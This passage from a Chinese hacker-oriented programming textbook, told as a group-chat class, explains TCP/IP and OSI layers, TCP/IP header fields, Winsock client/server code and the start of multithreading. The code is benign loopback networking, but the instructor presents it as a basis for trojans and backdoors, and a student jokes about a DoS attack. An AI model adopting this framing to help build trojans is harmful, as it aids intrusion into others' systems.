“TCP/IP 是 ‘Transmission Control Protocol/Internet Protocol’ 的简写，中文译为传输控制协议/互联网络协议，TCP/IP 是一种网络通信协议，它规范了网络上的所有通信设备，尤其是一个主机与另一个主机之间的数据往来格式以及传送方式。”

#### 小知识：TCP/IP 协议

TCP/IP 是 Internet 的基础协议，也是一种电脑数据打包和寻址的标准方法。在数据传送中，可形象地理解为有两个信封：TCP 和 IP 就像信封，要传递的信息被划分成若干段，每一段塞入一个 TCP 信封，并在该信封面上记录分段号的信息；再将 TCP 信封塞入 IP 大信封，然后发送上网。在接收端，一个 TCP 软件包收集信封，抽出数据，按发送前的顺序还原，并加以校验，若发现差错，TCP 将会要求重发。因此，TCP/IP 在 Internet 中几乎可以无差错地传送数据。对普通用户来说，并不需要了解网络协议的整个结构，仅需了解 IP 的地址格式，即可与世界各地进行网络通信。

IPX/SPX 是基于施乐的 XEROX'S Network System（XNS）协议，而 SPX 是基于施乐的 XEROX'S SPP（Sequenced Packet Protocol：顺序包协议）协议，它们都是应用于局域网的一种高速协议。与 TCP/IP 的一个显著不同就是：IPX/SPX 不使用 IP 地址，而是使用网卡的物理地址（即 MAC 地址）。在实际使用中，它基本不需要什么设置，装上就可以使用。

NetBEUI 即 NetBIOS Enhanced User Interface，意为 NetBIOS 增强用户接口。它是 NetBIOS 协议的增强版本，曾被许多操作系统采用，如 Windows for Workgroup、Win9x 系列、Windows NT 等。NETBEUI 协议在许多情形下很有用，是 Windows 98 之前的操作系统的缺省协议。总之 NetBEUI 协议是一种短小精悍、通信效率高的广播型协议，安装后不需要进行设置，特别适合于在“网络邻居”传送数据。所以，建议除了 TCP/IP 协议之外，局域网的计算机最好也安上 NetBEUI 协议。另外，还有一点要注意，如果一台只装了 TCP/IP 协议的 Windows 98 机器要想加入 WinNT 域，也必须安装 NetBEUI 协议。

“在网络的各层中还存在着许多协议，下面就列出一些网络协议规范。”

#### 网络协议规范

- **ARP（Address Resolution Protocol，地址解析协议）**：它用于映射计算机的物理地址和临时指定的网络地址。启动时它选择一个协议（网络层）地址，并检查这个地址是否已经有别的计算机使用。如果没有被使用，此结点将使用这个地址；如果此地址已被别的计算机使用，正在使用此地址的计算机会通告这一信息，我们只能再另选一个地址了。
- **SNMP（Simple Network Management Protocol，简单网络管理协议）**：它是 TCP/IP 协议中的一部分，它为本地和远端的网络设备管理提供了一个标准化途径，是分布式环境中集中化管理的重要组成部分。

它是一个基于 TCP/IP 协议的协议，可以让无盘站从一个中心服务器上获得 IP 地址，现在我们通常使用 DHCP 协议进行这一工作。

#### 动态主机配置协议（DHCP）

它是在 TCP/IP 网络上使客户机获得配置信息的协议，它基于 BOOTP 协议，并在 BOOTP 协议的基础上添加了自动分配可用网络地址等功能。这两个协议可以通过一些机制互操作。DHCP 协议在安装 TCP/IP 协议和使用 TCP/IP 协议进行通信时，必须配置 IP 地址、子网掩码、缺省网关三个参数，这三个参数可以手动配置，也可以使用 DHCP 自动配置。

> “Windows 网络编程虽然形形色色，但它们都必须遵循一个或多个以上的网络协议。一般的电脑用户是不必留意这些细节的，但你们作为一个‘准黑客’，尤其是想自己编写黑客软件的‘黑客’，就必须了解这些细节，否则就谈不上写什么黑客工具。”

“一下子来了这么多东西，我们还要点时间来消化呢！”

“都好了吗？接下来让大家看看网络 7 层协议在 Windows 中的实现。”

“什么是‘网络 7 层协议’？”

“所谓的 7 层协议就是 OSI 模型，具体分为：应用层、表示层、会话层、传输层、网络层、数据链路层和物理层。下面，我们简单地看看这个 OSI 模型。如图 1-3。”

“至于每层代表的含义，我们没有必要知道（当然有兴趣的可以去 Google 搜索一下）。”

“这 7 层模型在 Windows 程序下是怎样体现的呢？”

“这个问题问得好！我在这里就简单解释一下，以加深大家的理解。”

| 层级 | 名称 |
|---|---|
| 7 | 应用层 |
| 6 | 表示层 |
| 5 | 会话层 |
| 4 | 传输层 |
| 3 | 网络层 |
| 2 | 数据链路层 |
| 1 | 物理层 |
|  | 物理介质 |

图 1-3

#### 小知识：7 层模型在 Windows 程序下的体现

- **物理层**——这个很好理解，就是我们看得见摸得着的网卡。网卡的作用就是把线路发送过来的高频电流转化成数据包，然后传给网卡驱动程序，同时也把网卡驱动程序传送过来的数据转化成电信号传送出去。定义通过网络设备发送数据的物理方式，是网络媒介和设备间的接口。
- **数据链路层**——是网卡的驱动程序。定义控制通信连接的程序；封包；监测和改正包传输错误。
- **网络层**——即 NDIS，NDIS 提供网络层接口。决定网络设备间如何传输数据；根据唯一的网络设备地址选择包；提供流和拥塞控制，以阻止网络资源的损耗。
- **传输层**——即 TDI，TCP 协议的封包处理是在这一层进行的。管理网络中节点连接的信息传送；提供通过错误恢复和流控制装置传送可靠且有序的包；提供无连接面向包的传送。
- **会话层**——即 SPI，SPI 是服务提供者接口。管理用户间的会话和对话；控制用户间的连接。
- **表示层**——API，这个大家应该比较熟悉了，它为应用程序提供接口。API 负责 SPI 与应用程序之间的通信；定义不同体系间不同数据格式；具体说明独立结构的数据传输格式；编码和解码数据；加密和解密数据；压缩和解压数据。
- **应用层**——EXE，就是大家常见的应用程序。定义用于网络通信和数据传输的用户接口程序；提供标准服务，比如虚拟终端、文档以及任务的传输和操作。

“下面再来一个 7 层协议与 Windows 结构的简略映射图，如图 1-4。”

“通过图 1-4，相信大家对 OSI 七层协议有了比较清晰的了解！”

“哇！介绍得很好，但有些名词如 NDIS 我们也不知道是什么呢！”马蜂窝同学一向喜欢发问。

“这些就要涉及到系统驱动程序方面的知识了，现在给大家说，估计你们也听不懂，我说了也是白说啊！”

“那我们以后学系统驱动程序的知识吧！”马蜂窝说道。

“谷六哥，还有什么要介绍的吗？”蓝狐问道。

| 层级 | OSI 层 | Windows 结构 |
|---|---|---|
| 7 | 应用层 | 应用程序（exe） |
| 6 | 表示层 | Winsock API（dll） |
| 5 | 会话层 | SPI（dll） |
| 4 | 传输层 | TDI（vxd、sys） |
| 3 | 网络层 | NDIS（vxd、sys） |
| 2 | 数据链路层 | 网卡驱动程序（vxd、sys） |
| 1 | 物理层 | 网卡 |

图 1-4

“还有一些东西要说，这些东西是以后编写网络程序的基础。如果想编写如 icmpdoor 这类型的后门，就必须对下面的东西有个了解，那就是有关 TCP/IP 协议方面的比较详尽的知识。我前面说过，TCP/IP 协议叫做传输控制/网际协议，它是 Internet 国际互联网的基础。TCP/IP 是网络中使用的基本通信协议。”

“TCP/IP 是不是两个协议呢？”

“当然不是啦！虽然从名字上看 TCP/IP 包括两个协议，传输控制协议（TCP）和网际协议（IP），但 TCP/IP 实际上是一组协议。它包括上百个各种功能的协议，如：远程登录（Telnet）、文件传输（FTP）和电子邮件（E-mail）等。而 TCP 协议和 IP 协议是保证数据完整传输的两个基本的重要协议。通常说 TCP/IP 是 Internet 协议族，而不单单是 TCP 和 IP。”

| 协议层次 | 典型协议 |
|---|---|
| 应用程序协议 | HTTP、FTP、TELNET |
| 传输协议 | TCP、UDP |
| 网际协议 | IP |
| 物理层协议 | 网卡 |

图 1-5

“下面再让大家再看个图。图 1-5 简单展示了各协议中的关系。”

“TCP/IP 协议的基本传输单位是数据包（datagram），TCP 协议负责把数据分成若干个数据包，并给每个数据包加上包头（就像给一封信加上信封），包头上有相应的编号，以保证在数据接收端能将数据还原为原来的格式。IP 协议在每个包头再加上接收端主机地址（就像信件的地址），这样数据就能找到自己要去的地方。如果传输过程中出现数据丢失、数据失真等情况，TCP 协议会自动要求数据重新传输，并重新组包。”

“总之，IP 协议保证数据的传输，TCP 协议保证数据传输的质量。TCP/IP 协议数据的传输基于 TCP/IP 协议的四层结构：应用层、传输层、网络层、接口层，数据在传输时每通过一层就要在数据上加个包头，其中的数据供接收端同一层协议使用，而在接收端，每经过一层就要把对应包头拆除。”

用过的包头去掉，这样来保证传输数据格式的完全一致。

“下面的东西就比较重要了，大家一定要记住这个图。一个 TCP 头部结构，如图 1-6 所示。”

“谷大哥，能将每个选项都介绍一下么？”蓝狐问道。

“好的。TCP 协议头最少 20 个字节，包括以下区域：”

| 字段1 | 字段2 | 字段3 |
|---|---|---|
| 16位源端口号 | 16位目的端口号 |  |
| 32位序列号 |  |  |
| 32位确认号 |  |  |
| 4位首部长度 + 6位保留字 | 6位标志 | 16位窗口大小 |
| 16位校验和 | 16位紧急数据偏移量 |  |
| 数据段 |  |  |

图 1-6

- **TCP 源端口（Source Port）**：16 位的源端口，其中包含初始化通信的端口。源端口和源 IP 地址的作用是标识报文的返回地址。
- **TCP 目的端口（Destination Port）**：16 位目的端口就是报文要发送到目标主机的那个端口。
- **TCP 序列号（序列码，Sequence Number）**：32 位的序列号用于重组分段报文。
- **TCP 确认号（Acknowledgment Number）**：32 位确认号表示准备接收的包的序列码。
- **首部长度（HLEN）**：4 位，指示何处数据开始。
- **保留（Reserved）**：6 位，必须为 0，为将来用途保留。
- **标志（Code Bits）**：6 位标志域，按顺序为 URG、ACK、PSH、RST、SYN、FIN。
- **窗口（Window）**：16 位，用来表示想收到的每个 TCP 数据段的大小。
- **校验和（Checksum）**：16 位校验和，用于证明数据有效性。
- **紧急数据偏移量（紧急，Urgent Pointer）**：16 位，指向后面是优先数据的字节，在 URG 标志设置时才有效。如果 URG 标志没有被设置，紧急域作为填充。加快处理标示为紧急的数据段。

“下面我们再看一看 IP 头结构。如图 1-7。”

“给大家解释一下图 1-7 中部分选项的意思。”

| 字段1 | 字段2 | 字段3 | 字段4 |
|---|---|---|---|
| 4位IP版本号 | 4位首部长度 | 8位服务类型 | 16位总长度 |
| 16位标识 | 3位标志和偏移 |  |  |
| 8位生存时间TTL | 8位协议（TCP、UDP...） | 16位IP首部校验和 |  |
| 32位源IP地址 |  |  |  |
| 32位目的IP地址 |  |  |  |
| TCP头和然后是数据 |  |  |  |

图 1-7

- **图 1-7 中部分选项的含义：**
- 版本号：IP 头的版本号，目前是 IPv4，最新是 IPv6。
- 首部长度：IP 头的长度，若没有特殊选择，IP 头总是 20 字节长。
- 服务类型：服务类型，定义了数据传输的优先级、延迟、吞吐量和可靠性等特性。
- 总长度：IP 包的长度，若没有特殊选项，一般为 20 字节长。
- 标识：IP 包标识，主机使用它来确定每个发送的数据报。
- 标志：IP 数据分割标志。
- 偏移：IP 数据分割偏移（13 位）。
- 生存时间：数据报在网络上的存活时间，每通过一个路由器，该数值减一。
- 协议：TCP/IP 协议类型，比如：ICMP 为 1，IGMP 为 2，TCP 为 6，UDP 为 17 等。
- 首部校验和：头部检验和。

“上面这个 IP 头是作什么用的呀？”马蜂窝问道。

“前面说过了的，你没留心听讲！IP 头包含 IP 地址信息，用来告诉路由器它要到哪里去以及从哪里来；头部的校验和是用来确保数据的完整性；生存时间用来告诉路由器这个数据包在网络上的存活时间；数据包每经过一个路由，这个值会减少 1，为 0 时数据包就会被丢弃。”

“哈哈！我有个想法，把生存时间设置得很大，那么我发的包不就可以在网络上乱串吗？”我是良民得意洋洋地说道。

自作聪明的菜鸟！但有这个想法还是不错的。

“你错了。你没看见图 1-7 上写明的是‘8 位’生存时间吗？8 位的二进制数量最大就是 255（八位二进制数是 2 的 8 次方减 1，等于 255，而不是 256），不能为无穷大的。”

大家无语……

“OK！今天就介绍到这里。我们上面介绍了 TCP/IP 数据包的结构，目的是为后面介绍的有关 Socket Raw 编程作铺垫，因为后面的文章中会涉及到 TCP 和 IP 头的构建、接收和分析等。有关 TCP/IP 的更多细节，请大家参考其他文章。今天的课就到这里。”

“老师，再见！”马蜂窝在这句话后跟了一个可爱的小人。

### 1.3 Winsock 编程基础——关于服务器和客户端编程

“相信大家都对网络编程很感兴趣吧？”

“这不是废话吗？大哥！我们来学习 Hacker 编程就肯定对网络编程有兴趣啦！但就是不知道该如何入门啊！”我是良民没好气地回道。

看来这位同学跟我一样，都很喜欢网络编程啊！

“好吧！下面我就给大家介绍一下。在网络编程中应用最广泛的是编程接口 Winsock，这节课就为大家介绍网络编程最基本的知识——Winsock。可以肯定地说，所有网络应用程序都要应用到 Winsock（当然，不是 Windows 系统的，还有其它的 Socket 接口，我们这里只讨论 Windows 下的 Socket 编程）。”

“网络编程难学吗？”马蜂窝同学看来不怎么自信啊！

“其实，编写一个简单的 Windows 网络程序并不难，只需掌握一些基本的 Winsock 函数就可以实现。但如果想编写出优秀的网络程序（如冰河、流光、nmap 等），还要掌握其中一些细节问题，比如需要了解 Socket 的阻塞和非阻塞模式，以及 Socket Raw 编程等。这些知识将会在以后的‘课程’里为大家介绍。”

“Winsock 编程需要注意什么事项吗？”冰眼问道。

“有的。大凡在 Win32 平台上的 Winsock 编程都要经过下列基本步骤：定义变量→获得 Winsock 版本→加载 Winsock 库→初始化→创建套接字→设置套接字选项→关闭套接字→卸载 Winsock 库，释放所有资源。要记住，最后一定要释放资源，这是新手常犯的错误。如果只是一个简单的程序没释放资源，影响不会很大，但如果是多线程或程序创建了多个 Socket 对象而不去释放资源，那么就会对系统造成较大的影响，这点大家务必要记住！”

“好了，下面我们来看看服务器和客户端的程序流程吧！”

“学习 Winsock 就离不开客户端和服务器端的编程（C/S）模型。下面将为大家介绍一个 Winsock 服务器和客户端的建立过程。其实，建立服务器和客户端的步骤有很多相同的地方，你们稍加留意就会发现。下面就来看看服务器和客户端建立的大概步骤。”

“图 1-8 具体展示了服务器和客户端的工作流程，下面我们来具体看看程序代码。”

> **小知识：** 在 VC 中进行 Winsock 的 API 编程开发时，需要在项目中使用下面两个文件，否则会出现编译错误。

- 1. **WINSOCK.H**：这是 Winsock API 的头文件，需要包含在项目中；Windows 2000 以上支持 Winsock2，所以可以用 `winsock2.h`。
- 2. **Ws2_32.lib**：Winsock API 连接库文件。在使用中，一定要把它作为项目的非缺省连接库，包含到项目文件中去。

```c
#include <winsock.h>
#pragma comment(lib, "ws2_32.lib")
```

“首先，建立一个 WSADATA 结构，通常用 wsaData。”

```c
WSADATA wsaData;
```

## 第一章 网络和编程的基本知识

“接着，调用 WSAStartup 函数。WSAStartup 函数是连接应用程序与 winsock.dll 的第一个调用。第一个参数是应用程序欲使用的 Windows Sockets 版本号，第二个参数是指向 WSADATA 的指针。函数调用后返回一个 int 型的值，通过检查这个值来确定初始化是否成功。此函数在应用程序中初始化 Windows Sockets DLL，只有此函数调用成功后，应用程序才可以再调用其他 Windows Sockets DLL 中的 API 函数。在程序中调用该函数的形式如下：**WSAStartup(MAKEWORD(2,2), &wsaData)**，其中，‘MAKEWORD(2,2)’ 表示我们用的是 WinSocket2 版本，‘wsaData’ 用来存储系统传回的关于 WinSocket 的资料。”

```c
if ((iResult = WSAStartup(MAKEWORD(2,2), &wsaData)) != 0) {
    // 返回值不等于 0 的话，说明初始化失败
    printf("WSAStartup failed: %d", GetLastError());
    ExitProcess();  // 退出程序
}
```

“应用程序在完成对请求的 Socket 库的使用后，要调用 WSACleanup 函数来解除与 Socket 库的绑定，并且释放 Socket 库所占用的系统资源。我们要养成这样的良好编程习惯哦！”

“嗯！好的。”——向来不太喜欢插嘴的多多喵，不时怎地突然冒出一句。

“不要打岔！好好听！”冰眼有点生气了。

“好了，大家仔细看！WSAStartup 初始化后，必须定义一个 Socket 结构来保存 Socket 句柄。”

“什么是句柄啊？”

“这里给大家解释一下吧！”

> **小知识：句柄**  
> 句柄在 Windows 编程中是个很重要的概念，在许多地方都扮演着重要角色。在 Windows 程序中，并不是用内存的物理地址（物理地址就是内存中真实的数据地址）来标识内存块、文件、任务和动态装入的模块，相反地，Windows API 给这些项目分配确定的句柄，并将句柄返回给应用程序，然后通过句柄来进行操作。句柄是 Windows 用来标识被应用程序所建立或使用的对象的唯一整数，Windows 使用各种各样的句柄标识，诸如应用程序实例、窗口、控制、位图、GDI 对象等。一个 Windows 应用程序可以用不同的方法获得一个特定项的句柄。许多 API 函数，诸如 CreateWindow、GlobalAlloc、OpenFile 的返回值都是一个句柄值。另外 Windows 也能通过应用程序的引出函数将一个句柄作为参数传送给应用程序，应用程序一旦获得了一个确定项的句柄，便可在 Windows 环境下的任何地方对这个句柄进行操作。

“下面我们再来看看如何建立一个 Socket。首先，我们需要建立一个叫 m_socket 的 Socket 句柄，接着要调用 socket() 函数，函数返回值保存在 m_socket 中。在本例中，用 AF_INET、SOCK_STREAM、IPPROTO_TCP 这三个参数。第一个标明地址族，AF_INET 标识 TCP/IP 族，第二个参数表示服务类型，在 Winsock2 中，Socket 支持以下三种类型：”

| 类型 | 说明 |
|---|---|
| SOCK_STREAM | 流式套接字 |
| SOCK_DGRAM | 数据报套接字 |
| SOCK_RAW | 原始套接字 |

“第三个参数表示协议：”

```cpp
IPPROTO_UDP    UDP 协议，用于无连接数据报套接字
IPPROTO_TCP    TCP 协议，用于流套接字
IPPROTO_ICMP   ICMP 协议，用于原始套接字

m_socket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
// m_socket = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP); // 创建 UDP 协议
```

“以下代码用于检查返回值是否有错误：”

```cpp
if (m_socket == INVALID_SOCKET) {
    printf("Error at socket(): %d\n", GetLastError());
    WSACleanup(); // 释放资源
    return;
}
```

“如果 socket() 函数调用失败，那么它将返回 **INVALID_SOCKET**。上面这个 if 语句里的代码是为了捕获产生的错误。”

“为了服务器能接受一个连接，它必须绑定一个网络地址。下面的代码展示如何绑定一个已经初始化 IP 和端口的 Socket。客户端程序用这个 IP 地址和端口来连接服务器。”

```cpp
sockaddr_in service;
service.sin_family = AF_INET;
service.sin_addr.s_addr = inet_addr("127.0.0.1");
service.sin_port = htons(27015);
```

“其中，‘AF_INET’ 是 Internet 地址族；‘127.0.0.1’ 是将要绑定的本地 IP 地址；‘27015’ 是将要绑定的本地端口。”

“下面，我们调用 bind 函数，把 Socket 和 Sockaddr 以参数形式传入，并检查错误。”

```cpp
if (bind(m_socket, (SOCKADDR*)&service, sizeof(service)) == SOCKET_ERROR) {
    printf("bind() failed.\n");
    closesocket(m_socket);
    return;
}
```

“当服务器端的 Socket 对象绑定完成之后，服务器端必须建立一个监听的队列，以接收客户端的连接请求。listen() 函数使服务器端的 Socket 进入监听状态，该函数调用成功返回 0，否则返回 SOCKET_ERROR。代码如下：”

```cpp
if (listen(m_socket, 1) == SOCKET_ERROR) {
    printf("Error listening on socket.\n");
}
```

“服务器端的 Socket 调用完 listen() 后，如果此时客户端调用 connect() 函数，提出连接申请的话，Server 端必须再调用 accept() 函数。这样，服务器端和客户端才算正式完成通信程序的连接动作。”

“一旦 Socket 已经监听并等待连接，我们就要指定一个句柄来标识利用 accept() 函数接受的连接，这个句柄是用来发送与接收数据的标识。建立一个 Socket 句柄 AcceptSocket，然后利用无限循环来检测是否有连接传入。一旦有连接请求，accept() 函数就会被调用，并且返回这次连接的句柄。”

```cpp
printf("Waiting for a client to connect...\n");
while (1) {
    AcceptSocket = SOCKET_ERROR;
    while (AcceptSocket == SOCKET_ERROR) {
        AcceptSocket = accept(m_socket, NULL, NULL);
    }
    printf("Client Connected.\n");
    break;
}
```

“客户端连接请求被接受后，服务器端就可以利用 AcceptSocket 这个句柄来读写数据了。”

此时，QQ 群里冒出一个举手的图标，并跟着一句：“老师，我要上 WC。”  
“好吧！休息十分钟，大家看准表哦，到时就开讲，不等人。”  
“呜拉！”转眼间 QQ 群里再无任何消息。  
……

“OK，十分钟过去了，我们开始上课。”

“客户端的初始化跟服务器端大同小异，只是没有 bind() 以后的东西。以下代码简单演示如何连接到远端服务器：建立一个 sockaddr_in 对象，这个对象包含了将要使用的地址族、远端服务器 IP 地址、远端服务器端口。”

```cpp
sockaddr_in clientService;
clientService.sin_family = AF_INET;
clientService.sin_addr.s_addr = inet_addr("127.0.0.1");
clientService.sin_port = htons(27015);
```

“下面调用 connect() 函数。”

```cpp
if (connect(m_socket, (SOCKADDR*)&clientService, sizeof(clientService)) == SOCKET_ERROR) {
    printf("Failed to connect.\n");
    WSACleanup();
    return;
}
// 如果调用失败就清理退出
// 调用成功，这里继续数据的读写
```

“好了，服务器端跟客户端的基本流程大家应该都基本了解了，现在我们介绍服务器和客户端之间如何进行数据交换。”

## 第一章 网络和编程的基本知识

“接下来的代码主要涉及 send() 和 recv() 这两个函数：”

```cpp
send();
int send(
    SOCKET s,
    const char FAR* buf,
    int len,
    int flags
);
```

“不论是客户还是服务器应用程序，都用 send 函数来向 TCP 连接的另一端发送数据。客户程序一般用 send 函数向服务器发送请求，而服务器则通常用 send 函数来向客户程序发送应答。该函数的第一个参数指定发送端套接字描述符；第二个参数指明一个存放应用程序要发送数据的缓冲区；第三个参数指明实际要发送的数据的字节数；第四个参数一般置 0。这里只描述同步 Socket 的 send 函数的执行流程。当调用该函数时，send 先比较待发送数据的长度 len 和套接字 s 的发送缓冲区的长度，如果 len 大于 s 的发送缓冲区的长度，该函数返回 SOCKET_ERROR；如果 len 小于或者等于 s 的发送缓冲区的长度，那么 send 先检查协议是否正在发送 s 的发送缓冲区的数据，如果是，就等待协议把数据发送完；如果协议还没有开始发送 s 的发送缓冲区的数据或者 s 的发送缓冲区中没有数据，那么 send 就比较 s 的发送缓冲区的剩余空间和 len，如果 len 大于剩余空间大小，send 就一直等待协议把 s 的发送缓冲区中的数据发送完；如果 len 小于剩余空间大小，send 就仅仅把 buf 中的数据 copy 到剩余空间里（注意：并不是 send 把 s 的发送缓冲区中的数据传到连接的另一端，而是协议传的，send 仅仅是把 buf 中的数据 copy 到 s 的发送缓冲区的剩余空间里）。如果 send 函数 copy 数据成功，就返回实际 copy 的字节数；如果 send 在 copy 数据时出现错误，那么 send 就返回 SOCKET_ERROR；如果 send 在等待协议传送数据时网络断开的话，那么 send 函数也返回 SOCKET_ERROR。”

> **注意：**  
> send 函数把 buf 中的数据成功 copy 到 s 的发送缓冲区的剩余空间里后，它就返回了，但此时这些数据并不一定马上被传到连接的另一端；如果协议在后续的传送过程中出现网络错误，那么下一个 Socket 函数就会返回 SOCKET_ERROR（每一个除 send 外的 Socket 函数在执行的最开始，总要先等待套接字的发送缓冲区中的数据被协议传送完毕才能继续；如果在等待时出现网络错误，那么该 Socket 函数就返回 SOCKET_ERROR）。

```cpp
recv();
int recv(
    SOCKET s,
    char FAR *buf,
    int len,
    int flags
);
```

## 第一章 网络和编程的基本知识

“无论是客户还是服务器应用程序，都用 recv 函数从 TCP 连接的另一端接收数据。该函数的第一个参数指定接收端套接字描述符；第二个参数指明一个缓冲区，该缓冲区用来存放 recv 函数接收到的数据；第三个参数指明 buf 的长度；第四个参数一般置 0。这里只描述同步 Socket 的 recv 函数的执行流程。当应用程序调用 recv 函数时，recv 先等待 s 的发送缓冲区中的数据被协议传送完毕，如果协议在传送 s 的发送缓冲区中的数据时出现网络错误，那么 recv 函数返回 SOCKET_ERROR。如果 s 的发送缓冲区中没有数据，或者数据被协议成功发送完毕后，recv 先检查套接字 s 的接收缓冲区，如果 s 接收缓冲区中没有数据或者协议正在接收数据，那么 recv 就一直等待，直到协议把数据接收完毕。当协议把数据接收完毕，recv 函数就把 s 的接收缓冲区中的数据 copy 到 buf 中（注意：协议接收到的数据可能大于 buf 的长度，所以在这种情况下，要调用几次 recv 函数才能把 s 的接收缓冲区中的数据 copy 完。recv 函数仅仅是 copy 数据，真正的接收数据是协议来完成的），recv 函数返回其实际 copy 的字节数。如果 recv 在 copy 时出错，那么它返回 SOCKET_ERROR；如果 recv 函数在等待协议接收数据时网络中断，那么它返回 0。”

#### 服务器端

```c
int bytesSent;
int bytesRecv = SOCKET_ERROR;
char sendbuf[32] = "Server: Sending Data.";   // 将要发送的信息
char recvbuf[32] = "";                        // 接收数据的缓冲区

bytesRecv = recv(AcceptSocket, recvbuf, 32, 0);
// 接收数据。AcceptSocket 是上面服务器用 accept() 时返回的句柄，recv() 返回接收到数据的大小
printf("Bytes Recv: %d\n", bytesRecv);

bytesSent = send(AcceptSocket, sendbuf, strlen(sendbuf), 0);
// 发送数据。send() 返回发送数据的大小。
printf("Bytes Sent: %d\n", bytesSent);
```

#### 客户端

```c
int bytesSent;
int bytesRecv = SOCKET_ERROR;
char sendbuf[32] = "Client: Sending data.";
char recvbuf[32] = "";

bytesSent = send(m_socket, sendbuf, strlen(sendbuf), 0);
printf("Bytes Sent: %d\n", bytesSent);

while (bytesRecv == SOCKET_ERROR) {
    bytesRecv = recv(m_socket, recvbuf, 32, 0);
    if (bytesRecv == 0 || bytesRecv == WSAECONNRESET) {
        printf("Connection closed.\n");
        break;
    }

    if (bytesRecv < 0)
        return;
    printf("Bytes Recv: %ld\n", bytesRecv);
}
```

“为了让大家更清楚程序的工作流程，下面给出完整的服务器端代码，你们回去后用 VC 编译一下，看看有什么结果！”

```cpp
/*************  server.cpp  *********************
*****   TCP/IP application server example   ***********
*********************  2004/7/10  ***************/
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")

void main() {
    // 初始化
    WSADATA wsaData;
    int iResult = WSAStartup(MAKEWORD(2,2), &wsaData);
    if (iResult != NO_ERROR)
        printf("Error at WSAStartup()\n");

    // 建立 socket
    SOCKET server;
    server = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    if (server == INVALID_SOCKET) {
        printf("Error at socket(): %ld\n", WSAGetLastError());
        WSACleanup();
        return;
    }

    // 绑定 socket
    sockaddr_in service;
    service.sin_family = AF_INET;
    service.sin_addr.s_addr = inet_addr("127.0.0.1");
    service.sin_port = htons(27015);

    if (bind(server, (SOCKADDR*)&service, sizeof(service)) == SOCKET_ERROR) {
        printf("bind() failed.\n");
        closesocket(server);
        return;
    }

    // 监听 socket
    if (listen(server, 1) == SOCKET_ERROR)
        printf("Error listening on socket.\n");

    // 接受连接
    SOCKET AcceptSocket;

    printf("Waiting for a client to connect...\n");
    while (1) {
        AcceptSocket = SOCKET_ERROR;
        while (AcceptSocket == SOCKET_ERROR) {
            AcceptSocket = accept(server, NULL, NULL);
        }
        printf("Client Connected.\n");
        server = AcceptSocket;
        break;
    }

    // 发送、接收数据
    int bytesSent;
    int bytesRecv = SOCKET_ERROR;
    char sendbuf[32] = "Server: Sending Data";
    char recvbuf[32] = "";

    bytesRecv = recv(server, recvbuf, 32, 0);
    printf("Bytes Recv: %d\n", bytesRecv);

    bytesSent = send(server, sendbuf, strlen(sendbuf), 0);
    printf("Bytes Sent: %d\n", bytesSent);

    return;
}
```

“好的，老师。”马蜂窝说道。  
“接收到的数据存放在 recvbuf 中，sendbuf 用来存放将要发送的数据。现在大多数的服务端程序都是利用这个框架，你只需要在发送和接收数据的代码里加入要处理的代码，就可完成各项工作。”

“是不是我们用这个框架就可以开发木马了？”我是良民好奇地问道。  
“可以这么说。把上面的代码作为一个模块就行了，但还要添加一些处理代码，因为木马的数据传送通常还要经过封装，上面的例子只是简单地演示数据传送。”

“嗯！我们课后再动手编译一下上面的例子，以加深大家的理解。”

“好的！学习编程最重要的一个途径就是要多动手！相信大家都可以很快掌握 Winsock 编程的。今天的课就上到这里，BB！”

“BB！”所有人扔下这两个字母后匆匆离去。不知是下去练习今天的内容，还是做什么别的……

### 1.4 了解多线程编程

#### 1.4.1 多线程基础知识

“大家玩过 DOS 没有？”

“有啊！我刚才在用 DOS 工具 DOS 某站点呢！”

!@#￥%……&！

“此 DOS 非彼 DOS。你说的那个是拒绝服务，我这里说的是 DOS 系统！”

“DOS 系统有什么好说的？”“我是良民不屑一顾！”

“我就是想说说操作系统由 DOS 进入 Windows 是一个飞跃。大家都知道，DOS 系统跟 Windows 系统的最大区别是什么吗？”

“哈哈！这还用说？一个是敲命令，一个是点鼠标啊！”

“晕！我们要了解的不是这个。我们要讨论的 DOS 系统是单任务系统，而 Windows 是多任务系统！以前的 DOS 系统每次只能运行一个程序，而 Windows 呢？只要你的机器配置够好，开多少个程序也无所谓。我们今天就来说说 Windows 下的多线程问题。”

“好啊！现在什么都说是多线程，多线程扫描器、多线程 DOS 攻击工具等，我们也想看看究竟是怎么实现的！”

> **小知识：多线程**
>
> 当前流行的 Windows 操作系统能同时运行几个程序（独立运行的程序又称之为进程），对于同一个程序，它又可分成若干个独立的执行流，我们将其称之为线程。线程提供了多任务处理的能力。用进程和线程的观点来研究软件是当今普遍采用的方法，进程和线程的概念的出现，对提高软件的并行性有着重要意义。现在的应用软件无一不是多线程、多任务处理，单线程的软件是不可想象的。因此，掌握多线程、多任务设计方法对编写出优秀的程序是有很大帮助的。
>
> Windows 是一个多任务操作系统，即可以同时处理很多应用程序。例如你可以一边打开 IE 上网，一边开着 Winamp 欣赏音乐，这里就涉及到多进程问题。另外，在一个进程中也可以同时开多个“线程”来进行不同操作，这就是多线程。每当进程被初始化时，系统就要创建一个主线程；每个进程至少需要一个线程，并且必然有一个称为进程的主线程。对于很多应用程序来说，这个主线程是应用程序需要的唯一线程，但进程能够创建更多的线程来帮助执行它们的操作，以提高执行效率。
>
> 进程是不活动的，进程从来不执行任何操作，它只是提供线程的运行环境，可以说是线程的容器。线程总是在进程中创建，而且只在该进程中具有它的整个生命周期。线程随之消失。


线程的基本思想很简单，就是一个独立执行的模块，是进程内部相互独立的执行单元，相当于子程序。线程分为两种：用户界面线程和工作线程（又叫后台线程）。用户界面线程通常用来处理用户输入并响应各种事件和消息。工作者线程用来执行程序的后台处理任务，比如计算、处理网络通信等。多线程的好处是可以提高 CPU 的利用率，加快程序运行速度。一个进程中的所有线程都在该进程的虚拟地址空间中，并使用该进程的全局变量和系统资源。操作系统给每个线程分配不同的 CPU 时间，在某一个时刻，CPU 只执行某个线程中的操作。由于每个时间片段很短，所以对于用户来说，仿佛每个线程在计算机中是并行处理的。操作系统根据线程的优先级来安排 CPU 的时间，优先级高的线程优先运行，优先级低的线程则在等待。


“那么如何让我们的程序实现多线程呢？”多多喵问道。

“一个进程的主线程由操作系统自动生成，如果要让程序创建额外的线程，可以调用 CreateThread() 函数来完成。函数原型如下：”

```cpp
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
